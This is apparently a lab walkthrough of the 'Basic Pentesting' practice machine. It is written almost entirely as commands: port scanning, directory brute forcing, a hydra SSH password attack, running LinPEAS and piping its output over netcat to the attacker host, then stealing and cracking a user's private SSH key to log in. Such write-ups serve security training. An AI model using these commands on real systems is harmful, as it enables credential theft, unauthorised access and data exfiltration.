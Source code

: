 # Basic Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

---
### Active Machine Information

| | |
| :---- | :----|
| Title | Web App Test |
| Target IP | 10.10.0.193 |
| Host IP | 10.10.14.20 |

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

> - `22/tcp` OpenSSH
> - `80/tcp` Apache
> - `138/tcp` Samba
> - `445/tcp` Samba
> - `8009/tcp` Apache
> - `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

> `<!-- Check our dev note section if you need to know what to work on. -->`

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

> `/development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]`

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

> `href="dev.txt"`

> `href="j.txt"`

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

> `S-1-22-1-1000 Unix User\kay (Local User)`

> `S-1-22-1-1001 Unix User\jan (Local User)`

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

> `[22][ssh] host: 10.10.0.193   login: jan   password: armando`

Result: [hydra](hydra)

---

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

Using: `jan:armando`

```bash
ssh jan@10.10.0.93
```

Target:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

> `══╣ Possible private SSH keys were found! /home/kay/.ssh/id_rsa`

Result: [linpeas](linpeas)

---

Target:

```bash
cat /home/kay/.ssh/id_rsa
```

- Copy

Host:

```bash
cat > kay_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> `beeswax (kay_id_rsa)`

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```
